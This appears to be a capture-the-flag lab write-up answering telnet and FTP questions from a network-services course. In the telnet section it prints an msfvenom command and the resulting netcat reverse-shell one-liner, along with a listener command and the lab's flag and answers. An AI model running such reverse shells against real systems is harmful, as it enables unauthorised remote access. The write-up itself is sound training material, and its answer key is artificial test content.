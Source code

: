 > Telnet, being a protocol, is in and of itself insecure for the reasons we talked about earlier. It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control.

![Task 7](/media/thm/network-services/task-7.png)

* Great! It's an open telnet connection! What welcome message do we receive? `Skidy's backdoor`

* Let's try executing some commands, do we get a return on any input we enter into the telnet session? (Y/N) `N`

* Now, use the command "ping [local tun0 ip] -c 1" through the telnet session to see if we're able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N) `Y`

* We're going to generate a reverse shell payload using msfvenom.This will generate and encode a netcat reverse shell for us. Here's our syntax: `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

```
-p = payload
lhost = our local host IP address
lport = the port to listen on
R = export the payload in raw format
```

What word does the generated payload start with?

We use : `msfvenom -p cmd/unix/reverse_netcat lhost=local lport=4444 R`.  
The output is : `mkfifo /tmp/jwgd; nc 10.10.54.200 4444 0</tmp/jwgd | /bin/sh >/tmp/jwgd 2>&1; rm /tmp/jwgd`.  
local is the local ip not the ip machine.

Therefore, the generated payload start with `mkfifo`.

* Perfect. We're nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using:

`nc -lvp [listening port]`

What would the command look like for the listening port we selected in our payload? `nc -lvp 4444`

* Success! What is the contents of flag.txt?

We use `nc -lvp 444` on one terminal. In an other we connecte with telnet : `telnet ip_machine 8012` and run the payload : `.RUN mkfifo ...`.   
On the terminal with netcat we can use the shell, so `ls` and find a `flag.txt` file.  
We read it and the content is `THM{y0u_g0t_th3_t3ln3t_fl4g}`.

# [Task 8] - Understanding FTP

![Task 8](/media/thm/network-services/task-8.png)

* What communications model does FTP use? `client-server`

* What's the standard FTP port? `21`
